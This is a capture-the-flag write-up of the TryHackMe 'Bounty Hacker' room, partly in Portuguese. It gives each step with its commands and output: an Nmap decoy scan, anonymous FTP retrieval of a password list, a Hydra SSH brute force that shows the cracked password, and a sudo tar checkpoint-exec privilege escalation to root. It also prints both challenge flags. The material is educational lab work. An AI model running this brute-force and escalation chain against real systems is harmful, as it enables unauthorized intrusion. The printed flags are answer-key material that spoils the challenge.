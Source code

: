 # Bounty-Hacker

## 🚀 Step by step, ooh, baby

### 📋 Pré-requisitos
- Nmap 7.93 (https://nmap.org)
- Hydra v9.4 (https://github.com/vanhauser-thc/thc-hydra)

### 🔧 Execuç
```$ nmap -D RND:20 --open -sS -p- <ip>``` <br />
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-14 21:48 -03
Nmap scan report for <ip>
Host is up (0.23s latency).
Not shown: 56227 filtered tcp ports (no-response), 9305 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

```$ nmap --open -sV -p21,22,80 <ip>```<br />
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-14 21:58 -03
Nmap scan report for <ip>
Host is up (0.22s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.96 seconds

```$ ftp -p 21 <ip>```<br />
anonymous

```$ ls -lha```<br />
drwxr-xr-x    2 ftp      ftp          4096 Jun 07  2020 .
drwxr-xr-x    2 ftp      ftp          4096 Jun 07  2020 ..
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt

```$ get locks.txt```<br />
```$ get task.txt```<br />

```$ cat task.txt```<br />
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin

```$ cat locks.txt```<br />
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
...

```$ hydra -l lin -P locks.txt <ip> ssh```<br />
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-05-14 22:04:34
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://<ip>:22/
[22][ssh] host: <ip>   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-05-14 22:04:40

```$ ssh -p 22 lin@<ip>```<br />
RedDr4gonSynd1cat3

```$ ls -lha```<br />
total 12K
drwxr-xr-x  2 lin lin 4.0K Jun  7  2020 .
drwxr-xr-x 19 lin lin 4.0K Jun  7  2020 ..
-rw-rw-r--  1 lin lin   21 Jun  7  2020 user.txt

```$ cat user.txt```<br />
THM{CR1M3_SyNd1C4T3}

```$ sudo -l```<br />
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar

```$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh```<br />
tar: Removing leading `/' from member names

```$ whoami```<br />
root

```$ ls -lha /root```<br />
total 40K
drwx------  5 root root 4.0K Jun  7  2020 .
drwxr-xr-x 24 root root 4.0K Jun  6  2020 ..
-rw-------  1 root root 2.7K Jun  7  2020 .bash_history
-rw-r--r--  1 root root 3.1K Oct 22  2015 .bashrc
drwx------  2 root root 4.0K Feb 26  2019 .cache
drwxr-xr-x  2 root root 4.0K Jun  7  2020 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   19 Jun  7  2020 root.txt
-rw-r--r--  1 root root   66 Jun  7  2020 .selected_editor
drwx------  2 root root 4.0K Jun  7  2020 .ssh

```$ cat /root/root.txt```<br />
THM{80UN7Y_h4cK3r}

## 📌 Referências:
- https://tryhackme.com/room/cowboyhacker
- https://gtfobins.github.io/gtfobins/tar/
